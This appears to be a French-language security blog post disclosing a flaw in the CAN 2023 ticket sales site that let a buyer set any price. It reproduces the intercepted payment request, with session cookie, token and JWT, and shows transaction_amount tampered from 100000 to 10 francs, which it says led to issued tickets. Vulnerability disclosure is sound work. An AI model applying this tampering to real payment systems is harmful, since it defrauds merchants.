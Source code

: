 ```yaml
---
title : "CAN 2023 : La faille qui permettait d'acheter un billet de match à n'importe quel prix"
date : 2024-01-19T09:49:04Z
draft : true
images: [/images/1.png]
featuredImage: "/images/1.png"
featuredImagePreview: "/images/1.png"
---
```


# 🧟 La faille qui permettait d'acheter un billet de match à n'importe quel prix

## Introduction
Dans cet article, nous allons examiner une vulnérabilité découverte sur le site de vente de billets pour la Coupe d'Afrique des Nations de 2023 https://can2023-tickets.com/. 

Cette faille permet à une personne mam intentionnée d'acheter des billets à un prix inférieur à leur valeur réelle. Nous allons démontrer comment exploiter cette vulnérabilité et, en conclusion, donner des recommandations pour prévenir de telles failles à l'avenir.

## Détails de l'exploitation
L’exploitation est relativement très simple. 
D'abord on choisi le ticket qu'on veut acheter avec tous les détails à savoir la catégorie, la zone et le siège. 
Comment on peut le voir avec la capture ci-dessous, on a tous les éléments nécessaires et le prix du billet.

![Alt text](/images/3.png)

Ici on intercepte la requête qui permet de valider le panier pour effectuer le paiement avec Burpsuite.

![Alt text](/images/4.png)


Contenu de la requête :

```
POST /order HTTP/1.1
Host: crossroad-africa.net
Cookie: _session_id=8ababf97261c1f2d274494a5339a5965
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 332
Origin: https://can2023-tickets.com
Referer: https://can2023-tickets.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
Connection: close

operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw&currency=xof&transaction_amount=100000&payer=

```
Ici nous avons les données qui sont envoyés à l'API de paiement.
Nous avons le Token de l'opération, la monnaie utilisée et le prix du billet.
Nous avons remarqué que c'est le paramètre "transaction_amount" qui envoi le prix du billet à l'API de paiement.

```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=100000
&payer=

```

On peut mettre le prix qu'on veut sur ce paramètre pour modifier le prix du billet. 

Dans notre exemple, nous allons essayé avec 10 Francs.


```
operation_token=oDJRLnbY-MHCr-AeQo-FOWf-ves5BdwUW3Rg&order=KK3818AXB
&jwt=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJDQUYiLCJvcmRlciI6IktLMzgxOEFYQiIsImV4cCI6MTcwNTc0MzYxNiwiaXNzIjoiR2F0ZXdheSBQYXlNb25leSIsImlhdCI6MTcwNTY1NzIxNiwiYXVkIjoiRS1jb21tZXJjZSJ9.5USzKvP7bc6KKnW7IT92bLdcZnWIQ5pWWU3OVpeuiQw
&currency=xof
&transaction_amount=10
&payer=

```

Et nous remarquons que le changement de prix a été effectué sans problème.

![Alt text](/images/6.png)


Après paiement, les billets sont envoyés par mail.

![Alt text](/images/8.png)

## Recommandations


* Mettre en place des tests de pénétration réguliers : Effectuez des tests de pénétration réguliers pour identifier et corriger les vulnérabilités avant qu'elles ne soient exploitées.

* Utiliser une validation d'entrée robuste : Assurez-vous que le site Web utilise une validation d'entrée robuste pour empêcher les utilisateurs d'injecter du code malveillant.


* Mettre à jour les composants tiers : Maintenez les composants tiers utilisés sur le site Web à jour pour éviter les vulnérabilités connues.


* Mettre en place une authentification et une autorisation solides : Implémentez un système d'authentification et d'autorisation robuste pour empêcher les accès non autorisés.


* Former les développeurs : Formez les développeurs aux meilleures pratiques en matière de sécurité pour éviter les vulnérabilités courantes. 